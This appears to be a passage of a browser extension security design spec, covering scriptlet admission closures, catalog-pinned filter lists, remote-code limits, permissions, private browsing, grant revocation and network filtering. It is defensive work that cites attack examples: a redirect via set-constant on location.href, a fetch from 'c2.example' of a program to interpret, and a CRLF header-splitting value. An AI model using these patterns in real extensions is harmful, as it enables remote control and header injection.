**Scriptlets are the same shape as procedural operators — but the main world is where every sink lives, so the bound is enforced by an admission closure, not asserted.** A rule such as `example.com##+js(set-constant, adsEnabled, false)` is data that names an operator and its arguments. Gosub ships an **audited, browser-supplied scriptlet library** — the common uBO/AdGuard set (`set-constant`, `abort-on-property-read/write`, `json-prune`, `no-setTimeout-if`, `prevent-fetch/xhr` by *match* pattern, and so on) — as browser code, and `filtering.scriptlet` lets a list select and parameterize entries from it. Rules compile into a hostname → scriptlet-set table (the same Baleen frontend as cosmetic rules); injection scope follows §13's frame-tree machinery — the lookup keys on each document's origin, inherited-origin frames (`about:blank`, `srcdoc`) inherit their parent's injection, and injected scriptlets are bound to the document's navigation epoch. The browser injects the selected scriptlets at document-start into the page's **main world**, because that is where `window.adsEnabled` lives and an isolated realm would be useless.

Main-world injection is otherwise `page.main_world_inject` — loud, and `filtering.scriptlet` **stays loud until the library's per-operator proofs are discharged (O3)**; standard is the *target* tier it earns only once every operator is proven, not a default it starts from. The tier is conditional because the properties below include control-dependence non-interference, which is not decidable from arity/type and rests on per-operator audit: until that audit exists for the shipped set, the honest tier is loud (explicit consent, per-site revocable, derived warning), and it becomes standard operator-by-operator as the proofs land. What earns the eventual standard tier is that the library satisfies an **admission closure**: for every operator, under *any* attacker-chosen parameterization, all of the following hold. The closure is re-verified every time the library grows; it — not the audit adjective — is the security boundary, and each clause exists because its absence is a concrete break:

```text
operators     fixed set, browser-implemented, non-Turing, audited;
              a list may select and parameterize, never define
arguments     passed as STRUCTURED VALUES to a pre-compiled function —
              never interpolated into scriptlet source text, never fed
              to eval / Function. Textual splicing would be code
              injection through the parameter channel, the classic
              scriptlet-engine bug class. Each operator declares an
              ARITY + TYPE SCHEMA; the browser coerces every argument
              to its declared primitive kind BEFORE the scriptlet runs,
              so an argument can never arrive as an object whose
              toString / Symbol.toPrimitive runs page-reachable code,
              nor in the wrong count or type
parameters    data only — strings, numbers, selectors, match patterns.
              No parameter is ever LOADED: nothing designates a
              resource to fetch, navigate to, or inject; nothing is
              evaluated as code. Match-against-URL is fine
              (prevent-fetch); a URL to load is not
write targets ALLOWLIST, not denylist (a denylist of the DOM's
              write-to-network surface — location.*, document.cookie,
              window.open, innerHTML/outerHTML, document.write,
              setAttribute, sendBeacon, on* handlers the page later
              invokes with its own data — is open-ended and grows per
              spec release, the same wildcard trap §18 forbids for
              capabilities). An operator may write a property target
              only if it matches a POSITIVE schema: an own data
              property, reached by a STATIC STRING PATH (no computed or
              Symbol-keyed segment — `window[Symbol.unscopables]` and
              friends are excluded), holding a primitive, on a plain
              non-DOM / non-navigation object, with no __proto__ /
              constructor / prototype segment. Without this,
              set-constant('location.href', evil) is a standard-tier
              remote redirect and the honest actuator label would be
              navigation, not dom
op classes    the data-write allowlist governs set-constant-shaped
              operators ONLY. Operators that MUST wrap a function
              (prevent-fetch/xhr replacing window.fetch) or install an
              accessor (abort-on-property-read/write) do not fit "own
              data property holding a primitive" and are a SEPARATE,
              individually-proven class — each such operator carries
              its own proof that the wrapper/accessor introduces no
              sink and no control-dependence leak (above), because a
              generic allowlist cannot cover a function replacement.
              This is the honest reconciliation: the advertised
              operator set is larger than the data-write schema, so the
              schema is not the whole boundary — the per-operator proof
              obligation (O3) is
write values  ALSO an allowlist, and this is the subtler half. The
              target schema blocks writing to `location.href`; it does
              NOT block writing an attacker-chosen string to a plain
              page property the page LATER pipes to a sink itself
              (`someLib.cfg.returnUrl` -> the page does
              `location = someLib.cfg.returnUrl`). Arbitrary value +
              page gadget = a per-site sink that reaches through page
              code, and the target allowlist never sees it. So a write
              operator's VALUE argument is drawn from a vocabulary the
              OPERATOR declares — for set-constant the defusing set
              `false`/`true`/`null`/`undefined`/`''`/`0`/`noopFunc`/
              `emptyObj`/`emptyArr`; a more specific operator may
              declare a narrower typed vocabulary (e.g. a version
              string it is proven to place only where the page reads a
              version) — but NEVER an arbitrary rule-supplied string or
              URL on a generic write. Per-operator vocabularies keep
              real uses (`window.ga = null`) expressible without the
              one-size-fits-all set banning them, while an attacker who
              cannot supply `evil` as a generic value cannot feed a
              page gadget. Rule-supplied *targets* are constrained by
              shape; rule-supplied *values* by the operator's declared
              vocabulary — and note this closes only the DIRECT gadget;
              the TRANSITIVE gadget above is why even a vocabulary-safe
              write is not yet sink:none
synthesized   any response a preventing operator supplies comes from a
responses     FIXED ENUM (empty object / array / string, noop js) —
              never rule-supplied bytes; otherwise prevent-fetch IS
              replace-response with attacker-chosen data, which the
              library excludes (no set-cookie, no replace-response,
              no trusted-* family)
channel       the boundary is BYTE PROVENANCE AND MOVEMENT, not
              observability. A scriptlet's DOM effects are observable
              to a co-resident cosmetic engine or content script by
              construction — that is the scriptlet's job — so "no
              observable effect" would be vacuous. But "never write a
              value derived from page state" is *too* strong: it would
              ban json-prune, whose whole job is to return a page
              object minus fields to the page's OWN parse channel,
              creating no new path (a content script could already read
              that object directly). The real invariant is about
              MOVEMENT: no operator MOVES page-derived data to a
              location or channel the page did not ITSELF expose it to.
              Transforming page data in place, on a channel the page
              already reads, is fine (json-prune, abort-on-read);
              copying a matched request URL or a read datum into a NEW
              observable location — a DOM attribute, a fresh global,
              storage a co-resident extension context reads — is the
              source→extension channel in disguise and is forbidden
non-interference MOVEMENT of bytes is necessary but NOT sufficient: a
              page-derived PREDICATE must not control an extension-
              observable effect either. `if secret(page){ x=false }`
              writes no page byte yet leaks one bit through whether the
              write happened — and prevent-fetch (branches on a page
              URL), json-prune (branches on page data), abort-on-read
              (branches on page access) all have this shape. So the
              real property is non-interference including CONTROL
              dependence: no operator's extension-observable behavior
              (a write, an exception, a timing change, a response
              substitution a co-resident context can see) may depend
              on page state
transitive    and the reverse direction too: an operator's write must
              not cause PAGE code to produce an effect it would not
              otherwise. `if(cfg.telemetryEnabled) send(state)` — a
              scriptlet that sets the permitted property
              cfg.telemetryEnabled to the permitted constant `true`
              moved no page byte and its own control flow did not
              depend on page state, yet it drove a page-mediated sink.
              §5 labels by observable EFFECT, not which API performed
              it, so this is a sink. And "extension-observable behavior"
              includes TIMING: an operator that reads page data must be
              CONSTANT-TIME in that data and run under a deterministic
              instruction budget (not just wall-clock), because a
              co-resident context can measure injection duration and
              `scheduling` (silent) supplies the clock — otherwise
              read-length-dependent timing is a channel with no byte
              written. A generic set-constant(path, value) therefore
              cannot be proven sink:none from target shape + value
              vocabulary alone; the O3 proof must be a TRANSITIVE-effect
              proof, and there is no cheaper substitute: "restrict
              operators to suppressive semantics" looks like one but is
              UNSOUND — suppressing a page's own guard ENABLES the
              guarded action (no-op a paywall check
              and the content loads; suppress a consent gate and the
              trackers fire; defeat an anti-adblock probe and the page
              takes a path it otherwise would not). Monotonic in
              code-runs is not monotonic in effects. The proof is also
              CLOSED UNDER COMBINATION: three individually-safe writes
              (`cfg.debug=false`, `cfg.telemetry=false`, `cfg.guard=
              false`) can jointly drive page code that branches on all
              three, so the obligation is over the co-injected set on a
              document, not per operator in isolation. And it is bounded
              by RICE'S THEOREM: transitive non-interference against
              arbitrary page code (an SPA may define a getter/setter on
              the very target the operator writes) is undecidable in
              general, so the proof exists ONLY for operators whose
              effect is boundable independent of page-defined accessors
              — e.g. a write to a freshly-created own property the page
              has not and cannot have wrapped. Operators without such a
              bound are not admissible to standard and stay PERMANENTLY
              loud; the standard tier is for the provable subset, not an
              eventual home for all of them. Until the
              transitive proof exists the operator is dom power with a
              possible page-mediated sink, which is the standing reason
              the tier stays loud (§11, §19)
budget        per-operator cost bound INCLUDING argument evaluation
              against page-supplied input: pattern arguments use the
              linear-time engine (§2), path walks are depth- and
              step-capped — a hostile page must not stall the main
              thread through an innocent rule
enforcement   split into STRUCTURAL and SEMANTIC, because they live at
              different layers. Structural properties (operator id in
              library, arity/type, target shape, value vocabulary) are
              present in the (operator id, structured args) tuple, so
              the renderer-side injector re-validates them at document-
              start and rejects a hostile artifact's
              set-constant('location.href', evil) — §14 treats the
              artifact as untrusted. Semantic properties (control-
              dependence and transitive non-interference above) are NOT
              in the tuple — they are facts about the operator's
              implementation — so the renderer cannot re-derive them;
              they are proven ONCE at library-build time and the proof
              is carried WITH the library as a machine-checkable,
              versioned artifact (proof-carrying, not "audited"). The
              injector verifies the proof's identity/version, it does
              not re-prove the property. This is the honest split: the
              renderer enforces structure, the library ships semantics
```

That earns `filtering.scriptlet` its `source: none, sink: none` (§5) labels — it is page-integrity power (I:high — it changes what the page's own scripts see) with no confidentiality path — and lifts the last routine reason a blocker needs `content_script`. The *tier*, though, is loud until the per-operator proofs exist (above): the labels are earned by the closure, but the closure's control-dependence clause is an audit obligation, so the conservative tier holds until that audit is done, then relaxes to standard. Two boundaries stay honest: scriptlets are best-effort *assistance* against a hostile page, not an enforcement boundary — page code shares the realm and may redefine what a scriptlet patched; and the shared main world is an undeclared meeting point between unrelated publishers' page-side code — one extension's isolated-world script can detect another's patches — a covert-channel residual assigned to O7. Anything not in the library — a custom scriptlet, a `trusted-*` operator, general code — is `page.main_world_inject` (loud) or `content_script`, per site, as before. Surrogates (§6, response replacement) and scriptlets (document-start injection) draw from the same audited library but are **partitioned by realm**: surrogate entries run in §6's isolated realm and cannot patch page globals; scriptlet entries run in the main world and carry the stricter clauses above — admission as one never implies admission as the other. Library updates ship with the browser: uniform for all users, versioned with the release (the §9 model-C property), so a rule's effect changes only through a browser update, never per user. The library is itself a browser-shipped policy object as powerful as a remote ruleset, so it earns §9's governance rather than the word "audited": each release ships the library **with its admission-closure proof as a versioned, auditable artifact** — the closure is machine-checkable, so "safe" is a rechecked property, not a vendor assertion — and semantic changes to an existing operator are a transparency event, not a silent per-release swap.

## 9. Remote Rulesets Are Remote Policy

A remotely fetched filter list is a program in the policy language of §6–8, not inert data: a compromised list server changes browser behavior remotely, and a server can serve different rules to different users — reintroducing targeted policy.

```text
filtering.remote_rulesets (model C — see below; NOT a package-pinned hash):
    sources:  declared list identities, each resolved through a
              catalog the UA/store controls — NOT a single content
              hash frozen in the package (that is model A, corrected
              below)
    pin:      the package pins the CATALOG identity + signing key;
              the catalog publishes signed (version, hash) revisions
    fetcher:  the browser — no extension cookies, no extension
              headers, no redirects off the declared origin
    verify:   fetched bytes must match the CATALOG-signed hash or are
              rejected; the hash never comes from the list server
    freshness:catalog carries a signed monotonic revision + max-age;
              past max-age without the current revision the browser
              KEEPS the stale rules, SURFACES the staleness to the
              user (attributed, non-extension UI), and retries — for
              a bounded grace window, after which the extension is
              flagged degraded. Hard-failing would fail OPEN (no
              rules), which is exactly what a withholding server
              wants; for filtering, stale rules dominate no rules.
              The forbidden state is INVISIBLE staleness, not
              staleness
    dist:     catalog/store-controlled distribution or mandatory
              independent mirrors — so a list server withholding the
              current revision from selected clients cannot impose
              per-user policy through availability
    limits:   the size and compile budgets of §2
    schedule: browser-controlled, jittered
```

Content addressing is a requirement, not an option: browser-fetching removes extension-controlled personalization inputs but not the server's ability to vary the response by client IP/UA — only pinning to a specific content hash does that. But a package-pinned hash cannot *update*: when EasyList changes one byte, its hash changes and the fetch is rejected, so a purely package-pinned list is a frozen object that can only change through an extension-package update. Three coherent models exist:

```text
A  package-pinned hash   immutable object; updates require a new
                         extension-package version. Secure, static.
B  package-pinned key    the publisher signs new versions; the list
                         updates at runtime — but this IS runtime remote
                         filter control and composes as such (§5).
C  catalog / transparency the UA or store approves a specific
                         (version, hash) revision; browsers fetch exactly
                         that immutable object; the list SERVER only
                         distributes bytes it cannot vary per user.
```

Gosub adopts **model C**, and the earlier "MANDATORY hash embedded in the package" wording (which is model A) is corrected to match: the package pins a **catalog identity and the catalog's signing key**, not a single frozen content hash. The approver — a UA/store catalog, not the publisher's server — publishes signed `(version, hash)` revisions; the browser fetches exactly the approved immutable object and verifies it against the *catalog-signed* hash, so lists update through newly-approved revisions *and* every user provably runs the same reviewed bytes. Two consequences the reviews forced:

- **Targeted staleness is an attack, so freshness is enforced.** A content-addressed fetch stops a server serving *different accepted bytes* per user, but not a server *withholding* the newly-approved revision from selected clients to keep them on an old policy. The catalog therefore carries a signed monotonic revision number with a max-age — but the response to staleness is calibrated to what an attacker gains, because the naive rule ("refuse the stale revision, fail the fetch") is *worse* than the attack: dropping to no rules fails filtering **open**, handing the withholding server a stronger outcome than the staleness it engineered, and for a blocker a month-old list still blocks the overwhelming majority of trackers. So past max-age the browser **keeps the stale rules, surfaces the staleness visibly** (browser-owned, attributed UI the extension cannot suppress), retries through the catalog's mirrors, and only flags the extension degraded after a bounded grace window. The security event is *user-invisible* staleness; visible, bounded staleness with mirrors is the defense. Catalog/store-controlled distribution or mandatory independent mirrors remain part of model C so the publisher's server is never the sole distributor.
- **§11's guarantee is stated over the right channels.** "No runtime channel changes filtering between authenticated updates" would contradict model C (lists *do* update without a package update). The precise guarantee: *neither the extension publisher nor the list server can choose a per-user ruleset; filtering changes only through authenticated package updates, browser updates, or globally-approved catalog revisions every user receives alike.*

An extension that instead fetches rules itself and installs them via `dynamic_rules` is doing per-user policy (model B by hand), and the composition treats that `egress × dynamic_rules` pair as remote control (§5).

## 10. No Remotely Hosted Executable Code

> **Remote data must not be usable to introduce general-purpose executable logic into a privileged extension context.**

Enforced by the execution environment:

```text
Extension origin      each extension is its own origin, isolated
                      from pages and other extensions
Extension CSP         browser-owned minimum: no remote scripts, no
                      eval / new Function, declared-package WASM only
Workers & iframes     same policy; sandboxed pages for untrusted
                      content display
Cross-extension       no ambient access; externally_connectable
                      requires mutual declaration — and forms a
                      communicating set for §5 closure
user_scripts          the one deliberate exception (§19, gated);
                      fetched network content may not silently
                      become a user script — the canonical
                      egress × user_scripts remote-code bypass
```

**Honest limit: this rule stops remote *code*, not a remote *program interpreter*.** The CSP forecloses `eval`, remote scripts, and remote WASM — but packaged extension code can itself be an interpreter (a bytecode VM, a rules engine, an expression language, a sufficiently capable JSON command-dispatcher), and `fetch("c2.example/program.json") -> interpret(program)` turns remote data into arbitrary policy with no `eval` and no remote WASM in sight. The engine cannot decide whether fetched bytes are "data" or "a program" for packaged Turing-complete code, so §10 does not claim to prevent this. What contains it is the **capability model**, not the CSP: whatever the interpreted program decides, it can only *do* through the grants the extension holds, and Axis 2 (§5) now treats any readable egress as a `remote_server` command-source — so a packaged interpreter driven by `c2.example` composes to exactly the `remote.*` authority its actuators allow, surfaced in the dialog. Forbidding remote interpreters outright is a store/review-policy matter, named here rather than claimed by the runtime.

## 11. Human-Readable Permissions

The dialog leads with derived authority (§5), then capabilities with scopes, then what the extension *cannot* do where the contrast informs.

```text
uBlock-class blocker wants to:
    ✓ Block and hide ads and trackers on all sites
    ✓ Remove tracking parameters from web addresses
    ✓ Update its filter lists from lists.example (verified copies)
    ✓ Show a blocked counter on its icon
    !  Run the browser's built-in ad-defusing scripts inside pages
       (reviewed scripts only; revocable per site)
    !  When you click its icon, it can read the current page and
       contact the network
    ✗ It cannot see the addresses you visit
    ✗ It cannot read pages unless you click it
    ✗ No server it talks to can choose different filtering for
       you than for anyone else (lists update only through
       browser-approved revisions everyone receives)

Password manager wants to:
    ✓ Fill your saved passwords (your vault handles the secrets)
    ✓ Sync your vault with sync.myvault.example
    ✗ It cannot read the pages you visit
    ✗ It cannot see which sites you log into
```

The blocker's two `!` lines are the honest cost of its in-page scriptlets and its element picker. The scriptlet line is loud pending the per-operator non-interference proofs of O3 (§8); once the browser library discharges them it relaxes to a silent-tier `✓` line ("Disable ad and anti-adblock scripts inside pages"), and the blocker is back to a single `!`. Showing it loud now is the conservative, honest state, not a permanent cost. The password manager has no `!`, because browser-mediated fill and detection (§19) leave no page-content source and no credential-exfiltration pair. Honest dialog and secure design are the same artifact.

**Two honesty caveats the reviews pressed.** First, the friendly summary lines are *product labels over an effect*, not the effect itself: "Block ads and trackers" is `filtering.block` over arbitrary matching resources — there is no enforced semantic category "ads" — and "Remove tracking parameters" is `rewrite_url` deleting arbitrary query parameters, which the document itself notes can strip a CSRF token or signature (§6). The precise effect-level grant is what the model enforces and what the capability list (shown beneath the summary) states; the top line is a readable gloss, and the UA must not let the gloss *narrow* the stated capability. Second, the dialog is **not the security boundary** — the capability restrictions are. Most users will not read or fully understand it; a true dialog is necessary for informed consent and useless as a containment mechanism, which is exactly why the model's guarantees (§5–§17) never depend on the user parsing it. "Honest dialog" and "enforced capability" are complementary, not substitutes.

The negative claims are scoped precisely. "No server it talks to can choose different filtering for you than for anyone else" is defendable; the unscoped "cannot be controlled by a remote server" is *false*, because every auto-updating extension has a `publisher_update` command source — the publisher ships new packaged code and rules within the existing grant each release. The security guarantee is therefore the one §9 states over the right channels: **neither the extension publisher nor the list server can choose a per-user ruleset; filtering changes only through authenticated package updates, browser updates, or globally-approved catalog revisions every user receives alike.** Catalog revisions ARE legitimate runtime filtering changes (model C), so the old "no runtime change between updates" wording was wrong and is retired; what is forbidden is *per-user* runtime change. Package updates are a distinct, authenticated channel governed by the update capability-diff (§13), and are not shown as a scary per-install permission (every extension would carry the same true-but-useless line).

## 12. Extension Workers and Private Browsing

Workers are event-driven: started for events, stopped when idle. Because Gosub owns the runtime, broker-managed durable state survives restarts and keepalive hacks are pointless.

**Private browsing is a boundary.**

```text
extension.private_browsing:
    denied            default — no run, no events in private windows
    isolated          separate worker, memory-only storage, no
                      BROWSER-PROVIDED channel to the regular
                      instance; state ends with the session
    isolated_network  isolated, and no EXTENSION-PRINCIPAL network
                      egress in private — for tools that can work
                      offline; closes the "both instances phone the
                      same host, vendor correlates by IP+time" channel.
                      The guarantee is scoped to the extension principal
                      on purpose: §15's initiator rule leaves a page's
                      OWN requests as page traffic, so a content script
                      that writes extension state into the DOM which
                      cooperating page JS then egresses would launder
                      around a naive "no network" claim. isolated_network
                      therefore ALSO denies, in private, the page-write
                      capabilities that enable that laundering
                      (content_script main-world writes, scriptlet,
                      styles.inject_raw) — or it is not grantable
                      alongside them. "No egress" means no extension-
                      principal egress AND no page-mediated egress path
                      the extension can drive
    spanning          discouraged, loud — one worker sees both
```

**Partitioned state means a separate store, not a namespaced one.** Where a capability is `separately partitioned` in private (§12 matrix), the partition is a distinct backing store — a separate cookie jar, a separate storage area, a separate stats pool — never the same store under a private-prefixed key a regular-mode principal could guess and read. Prefix-partitioning re-creates the cross-instance channel the isolation forbids.

**Isolation is closed under the capability set, not just the worker.** "No browser-provided channel" is violated if any *browser-managed* state spans the two instances, so `isolated` is a per-capability intersection, not one worker flag: for each capability the private instance is `denied` or `separately partitioned` — those are the only two safe cells. An earlier draft offered `shared-read-only`, and it is exactly wrong: a private worker reading regular-mode state links the instances in the deanonymizing direction, which is the channel `isolated` exists to forbid — read-only is still a channel. (`spanning` remains what it always was: the loud, discouraged opt-out of isolation, not a cell of it.) The pooled stats budget and its block counter are **partitioned** per instance (else private reads deplete a pool the regular worker observes — §7); `system.native_messaging` is `denied` in private by default (two isolated workers reaching the same native process is a bridge); `network.proxy_control`, download state, and badges/counters get the same denied-or-partitioned analysis. A capability with no browser-managed cross-instance state is unaffected. The matrix is the guarantee; the four worker modes are its coarse summary.

The isolation guarantee is precise: *no browser-provided state or channel* connects the instances. It does not claim network-level unlinkability — two instances that both hold egress to the same host can be correlated by the vendor via IP and timing, which is why private access is granted separately and `isolated_network` exists. Chromium `incognito: split` translates to `isolated`, never to nothing.

## 13. Grant Lifecycle

**Install: translation is pinned.** Translation (§18) resolves the manifest to an explicit capability(scope) list with canonical scopes; that list is the grant. No wildcard namespaces exist in grants; capabilities added to Gosub later can never flow into an old grant.

**Update: diff the effective sets, recompose warnings.**

```text
old effective capabilities -> capability diff -> new effective set
```

Any expansion — including removal of a narrowing `gosub` key with permissions unchanged — suspends the extension until approved. The composition closure (§5) is recomputed and the derived-warning **delta** is shown, so a new sink against an old source prompts re-consent. Reductions apply silently.

**Revocation is a control-plane operation.** Revoking a capability or narrowing a scope broadcasts a Baleen table update. Semantics:

```text
effect       matching rules and injections stop; state disabled,
             not deleted — re-grant restores it
propagation  control-plane messages travel an out-of-band,
             high-priority channel that PRE-EMPTS the worker event
             loop, so a worker cannot flood injection commands
             through the propagation window
live docs    on revoke, affected live documents are re-evaluated:
             injected contexts are torn down where the runtime
             allows, else the tab is reloaded with attribution —
             revocation is not "effective at next reload only"
in-flight    every privileged operation is tagged at validation
             time with the grant epoch and re-checked at a defined
             COMMIT POINT per capability. Revocation guarantees only
             what physics allows: no new privileged effect may BEGIN
             or commit after revocation, and in-flight cancellable
             work is aborted (a connection is closed, remaining bytes
             stop, a pending injection is dropped). Effects already
             externally committed before the epoch changed — bytes on
             the wire, a set cookie, a committed navigation, a created
             file — are irreversible; revocation stops the next
             effect, it cannot unsend the last one
persistence  survives updates
notification the extension gets a lifecycle event; privileged
             operations under a revoked grant fail closed
```

**Grants bind to documents, and the renderer is the ground truth.** Site and activeTab grants are held against `(tab_id, frame_id, document_id, navigation_epoch, origin)`. The identity is carried *inside* each execution payload and **revalidated by the renderer at the moment of execution** — the broker validating and then forwarding is not sufficient, because the document can navigate in the gap. The renderer drops any execution frame whose current `document_id` does not match the payload. Teardown at cross-document navigation is **frame-tree-wide**: descendant and extension-injected frames inherit the grant's epoch and lose it together, so an injected subframe or an `onbeforeunload` hook cannot outlive the navigation that ends the grant. Teardown is frame-tree-wide; **authority is not**. A grant covers the top-level document plus its *same-origin and inherited-origin* (`about:blank`, `srcdoc`) descendants only. A **cross-origin** child frame — the embedded payment, login, or auth iframe — is a distinct origin and needs a separately held host grant or a separately scoped gesture; it inherits the epoch (so it tears down together) but never the access. Frame-tree-wide epoch, origin-scoped authority.

For `content_script.active_tab`: the grant is minted only by a **browser-rendered gesture the extension cannot synthesize** (the toolbar-icon click), covers the current document and its same-origin/inherited-origin frame tree (a cross-origin child needs its own grant — clicking the toolbar button on `news.example` must not reach an embedded `bank.example` frame), survives same-document `pushState`, and ends at any cross-document navigation.

**Publisher identity is a stable principal, with signing keys rotating beneath it.** §5 composes authority over the *publisher* principal, so "who is the publisher" is a model input, not a distribution detail (why O6 is a dependency of §5). The naive definition "publisher = the signing key" is wrong in both directions, and the reviews forced the correction:

- **Sharding:** if the key *is* the principal, one controller ships two packages under two keys and they stop being "same publisher," dissolving the same-publisher closure at will. So the principal is an **organizational identity** the store binds (the account/entity behind the packages), and same-publisher composition is computed over *that*, with signing keys as credentials attached beneath it. Two keys held by one bound identity still compose jointly.
- **Rotation vs transfer:** ordinary **key rotation preserves the principal** — a new key authenticated by a signed continuity chain from the old one is the same publisher, and must NOT force re-consent or (worse) *break* a same-publisher pair that legitimately composed. Only a genuine **ownership transfer** (the bound organizational identity changes) changes the principal.

```text
key rotation (signed continuity chain)   same principal; no re-consent
ownership / identity transfer            principal changes ->
                                         recompute closure ->
                                         show newly-derived authority ->
                                         re-consent (suspended til approved)
key compromise / revocation              old key's packages distrusted;
                                         re-established only up the chain
```

A key rotation that is *not* backed by a valid continuity chain is treated as a transfer (or a compromise), not a silent same-principal event — so a stolen key cannot quietly ship expanded authority under the victim's identity; the update capability-diff (§13) still gates every such release. Sideloaded extensions with no bound identity are their own singleton principal and never compose with another package.

---

# Part III — Architecture

## 14. Baleen: The Matching Core

Baleen (`gosub_baleen`) is the engine's URL-dispatch primitive, not an ad-blocking component. One matching core, many namespaced tables, generic over verdict:

```text
Consumer                         Table namespace
network filtering (Sonar)        block/redirect/header verdicts
content-script injection         extension × match-pattern
cosmetic filtering (renderer)    hostname -> selector sets
egress scope checks (Sonar)      extension × declared hosts
per-site grants (broker)         capability × scope
stats attribution                rule id -> extension counter
```

Structure: a core (right-to-left hostname label walk, rarest-token pattern index, linear-time regex bucket, exceptions consulted after a hit), frontends (ABP/uBO semantics, WebExtension match patterns, grant scopes — precedence resolves in the frontend, the core returns candidate sets), and a flat, offset-based, position-independent artifact with a well-specified little-endian layout and explicit alignment. `mmap` is a validated-per-platform performance path, not a portability assumption: an artifact is validated for the current platform's alignment/page-size before it is mapped, so a blob valid on one target cannot trigger undefined behavior on another; where a platform cannot satisfy the layout it copies instead of mapping.

**The artifact carries no authority, and validation covers termination, not only bounds.** This is the load-bearing invariant, and it is stronger than "validate the bytes": a compiled table can be perfectly well-formed — in bounds, terminating, every scriptlet operator in the library — and still assert authority the extension was never granted (`bank.example -> set-constant(...)` under a grant scoped to `example.com`; a header rule on a host outside scope; a redirect the grant never authorized). Structural validation does not catch this, because the malice is in the *authority*, not the *shape*. Therefore:

> **No consumer trusts an artifact's authority. Every consumer intersects the artifact's result with a trusted, separately-produced `(extension_id, capability, granted_scope)` envelope** — the grant table the broker holds, which the compromised compiler never touches. Sonar, the renderer-side injector, the header engine and the redirect engine each run this intersection at the point of effect; a table entry outside the envelope is dropped, not executed. The compiler is structurally unable to *emit into* the grant/egress namespaces at all — those tables are produced by the broker from the pinned grant (§13), not by the rule compiler — so an artifact is a set of *candidate* effects the trusted envelope authorizes or discards, never a source of permission. Three points the intersection must nail down, because a red-team pass showed the invariant is only as good as its placement: (1) **the compiler never applies the envelope to its own output** — a compromised compiler would ignore it; the envelope is held and applied by the *trusted consumer* (Sonar, the injector) at the point of effect, and if the compiler is asked to annotate rules with the scope it compiled against, the assembler *verifies* the annotation against the broker's envelope rather than trusting it. (2) **The scope check is against the effective destination, not the matched URL** — a candidate matching an in-scope URL whose effective target resolves elsewhere (path-based host maps, same-origin redirect that rewrites host) is re-checked per hop against the resolved destination (§15), so an in-scope match cannot smuggle an out-of-scope effect. (3) The intersection is **per rule *and* per effect**, so the composition of individually in-scope rules cannot exceed the envelope. This generalizes the per-operation broker check (§16) to the tables Sonar and the renderer execute directly, which would otherwise bypass that check.

Consumers never mmap-cast the blob into structs. Every artifact is validated on receipt against the assumption that the compiler was compromised:

```text
bounds        all offsets forward-only, length-prefixed sections,
              no internal pointers, sizes bound-checked with
              OVERFLOW-SAFE arithmetic (offset+len computed in a
              wider type / checked ops, so a crafted near-MAX offset
              cannot wrap past a bounds test)
termination   the transition graph is verified ACYCLIC (a DAG
              invariant) or carries a per-request execution-step
              cap — a bounds-valid but CYCLIC artifact must not be
              able to hang the match loop and thereby DoS Sonar
scriptlet     scriptlet-table sections are validated against the §8
              admission closure — every operator id in the library,
              every argument conforming to that operator's arity/type
              schema — at injection time; a compromised compiler
              cannot emit an unlisted operator or a schema-violating
              argument into the table
handles       validation produces bound-checked safe handles; no
              raw offset arithmetic runs after validation
audit         the validator is small enough for manual audit
              (stated line / cyclomatic-complexity budget), is
              continuously fuzzed against a hostile-compiler corpus,
              and is a stated FORMAL-VERIFICATION target — "audited"
              is a proof obligation with an enumerated attack list
              (offset overflow, cyclic graph, resource-blowup lookup
              tables), not a comfort word
```

**Handover is sealed, and the compiler never holds the writable descriptor.** The write→validate→seal sequence is safe only if the *compromised compiler* never possesses the writable memfd — otherwise it races the validate/seal window to mutate the bytes after the check. So a separate privileged assembler owns the descriptor: the sandboxed compiler emits its output over a pipe, the assembler writes it into a fresh `memfd_create`, validates, then `F_SEAL_SHRINK|GROW|WRITE|SEAL` and maps read-only. Because the compiler is assumed compromised, the assembler **enforces the §2 budgets while ingesting the stream** — a byte cap, a section-count cap, and wall/CPU limits applied as bytes arrive, killing the compiler process on breach — since a compiler that streams forever or emits gigabytes of pathological sections would otherwise DoS the assembler before validation ever runs. No writable descriptor is ever shared with the compiler, and none survives sealing. This reuses the multi-process tile-passing infrastructure.

The build-vs-embed decision has a stated threshold: embed `adblock-rust` as the phase-0 baseline and permanent oracle; write the Baleen core only if adblock-rust misses a target (<10 µs p99, <50 MB resident, the required operator set, acceptable compile time) by more than 20 % *and* profiling shows the gap is intrinsic rather than optimizable.

## 15. Sonar Integration

The network filter engine is a library inside Sonar's process; per-request IPC to an external filter process would cost a round-trip per fetch. The broker installs sealed, validated tables into Sonar.

**Hook points:** pre-connect (allow/block/redirect), pre-send (request headers), response-headers (response headers, CSP). **Matching scope:** request URL, request class, party, initiator origin, request headers, response headers — **never response bodies.** (This is a claim about *filtering*, not about the browser: `devtools.network` (HAR + bodies), `content_handler` (renders a body), and `capture.*` (rendered pixels) do reach response content — each loud/gated and separately tiered in §19. §15's guarantee is that the network *filter path* never sees a body, not that no capability anywhere does.)

**All network egress routes through one policy, keyed by effect not API.** Sonar applies the extension egress policy to *every* network-producing operation attributable to an extension — `fetch`, a DOM-created ``/iframe/form, a navigation, a tab-open, a WebSocket, a beacon, a CSS `url()` — keyed on `(extension_id, initiator, destination)`. This is why the capability is `network.egress_*`, not `network.fetch_*`: `fetch` is one transport among many, and a model that policed only `fetch` would let content scripts and tab APIs launder exfiltration around it. **The transport set is closed by effect, not by an HTTP-centric list:** WebRTC (ICE candidate gathering and data channels), WebTransport/QUIC, WebSocket, and any raw/UDP socket path an extension can reach are egress and route through the same `(extension_id, initiator, destination)` policy — an extension that cannot satisfy egress policy for a peer/relay simply cannot open the channel. A transport the policy cannot mediate is denied to extensions, never silently exempt, because a P2P/UDP side-channel that skipped the HTTP chokepoint would be exactly the launder the effect-keying exists to prevent.

**Header modification is byte-validated, and matching is separately restricted.** Two distinct protected sets:

```text
modifiable   safe-list only; Cookie, Authorization, Host, Origin,
             Sec-Fetch-*, Set-Cookie, Strict-Transport-Security,
             Content-Length, CORS headers are engine-controlled
matchable    NARROWER than modifiable; a rule predicate may test
             e.g. Content-Type but NOT Authorization / Cookie /
             Set-Cookie — testing a secret-bearing header is an
             oracle even if the value is never received
```

Every extension-supplied header value is validated against the RFC 9110 field-value character set — CR, LF, and NUL rejected — **before** Sonar serializes it to the wire, and **each header is emitted as its own field line, never comma-combined with a same-named header** (combining is where an otherwise-legal comma turns two values into an injected third). Without the character check, a "safe" value carrying `\r\nSet-Cookie: …` performs response-splitting that injects a protected header underneath the capability check. This is a serialization-boundary defense, not a capability-boundary one.

